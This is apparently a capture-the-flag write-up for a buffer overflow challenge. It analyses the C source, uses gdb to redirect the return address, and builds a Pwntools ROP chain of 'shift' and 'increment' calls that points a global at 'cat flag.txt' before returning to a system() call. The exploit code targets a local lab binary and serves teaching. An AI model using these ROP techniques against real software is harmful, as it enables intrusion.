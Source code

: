# Writeup

## Static Analysis

There are quite a few changes to the C source code this time.

There are two new global variables, `target` and `pointer`:

```c
char target[] = "cat flag.txt";
long pointer = 0;
```

There is a new `increment` function that increments `pointer`:

```c
void increment(void) {
    pointer++;
    return;
}
```

And a new `shift` function that left shifts `pointer` by 1:

```c
void shift(void) {
    pointer <<= 1;
    return;
}
```

Finally, `win` has changed so that it takes `pointer` as the argument rather than the usual `cat flag.txt` string:

```c
void win(void) {
    system((char *)pointer);
    return;
}
```

This means we will have to find a way of making `pointer` point to `target` so we can return to `win` and `cat flag.txt` will be executed.

## Dynamic Analysis

Let's do some investigation:

```
gdb ./vuln
r
CTRL+C
f 6
b 30
c
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
```

We started the program, set a breakpoint after the `fgets` line and entered our padding identifying sequence. Now that we have hit the breakpoint we can use `gdb` to modify the return address to the address of `increment` with `set *(void **)($rbp + 8) = increment`. `rbp` contains the address of the saved base pointer which sits just above the return address so `$rbp + 8` is the address of the return address. The `*(void **)` casts this address to a void pointer pointer and then dereferences it to a void pointer which allows us to set it to the address of `increment`.

After continuing with `c` the program crashes with a segmentation fault. `p pointer` shows that `pointer` has indeed been incremented by the `increment` function. We fault trying to return to `0x6e6d6c6b6a696867` (`ghijklmn`) which is 32 bytes into the sequence (8 more than with the first return). So it seems we can return to address after address by simply placing them consecutively on the stack. This is known as a ROP chain.

Using a ROP chain we can return to some sequence of `increment`s and `shift`s to make `pointer` point to `target` and then return to `win` to get the flag.

## Exploit

For this exploit we are going to use Pwntools which is a Python library for rapid exploit development. We can generate a template script with:

```
pwn template vuln --host 127.0.0.1 --port 42004 --quiet > exploit.py
```

Here `vuln` is the name of the local binary, `--host` and `--port` specify the remote host and port and `--quiet` reduces the number of comments that are produced. After generating the exploit we pipe it into the `exploit.py` file.

The template does some basic setup that makes it easy to interact with the program. For example, we can use `io.send`, `io.sendline`, `io.sendafter` and `io.sendlineafter` to send text to the program; we can use `io.recv`, `io.recvline` and `io.recvuntil` to receive text from the program.

It also makes it easy to get information about the binary. For example we can use `exe.sym.target` to get the address of the `target` symbol or `exe.sym.win` to get the address of the `win` symbol.

There are also various utility functions for converting data to bytes. `flat` is the most useful of these as it is automatically configured based on the program's architecture and can convert complex data structures such as nested lists and dictionaries.

If we take a binary number such as `0b10` and shift it left by 1 we get `0b100`. If we do it again we get `0b1000`. We observe that shifting left by 1 appends a 0 to the binary number.

Now, if we take `0b10`, shift it left by 1 and then add 1 we get `0b101`. If we do it again we get `0b1011`. We observe that shifting left by 1 and adding 1 appends a 1 to the binary number.

Using these two facts we can make `pointer` point to `target` by iterating over the binary address of `target` and calling `shift` if there is a 0 or `shift` followed by `increment` if there is a 1. The following Python code will build a list of addresses based on this principle:

```python
payload = []
for bit in f"{exe.sym.target:b}":
    payload.append(exe.sym.shift)
    if bit == "1":
        payload.append(exe.sym.increment)
```

Notice that it makes use of `exe.sym` to get addresses from the binary using Pwntools.

After this we need to call `win` so let's append that to the list:

```python
payload.append(exe.sym.win)
```

We have just contracted a ROP chain. If we overflow the buffer so that `vuln` returns to the start of the chain, each function will be executed and the flag will be displayed. This can be achieved using `io.sendlineafter` and `flat`:

```python
io.sendlineafter("Enter your name: ", flat({
    24: payload
}))
```

The completed exploit can be found in `exploit.py`. There are also Pwntools exploits for the previous challenges. It can be run locally with:

```
python exploit.py LOCAL
```

Or remotely with:

```
python exploit.py
```


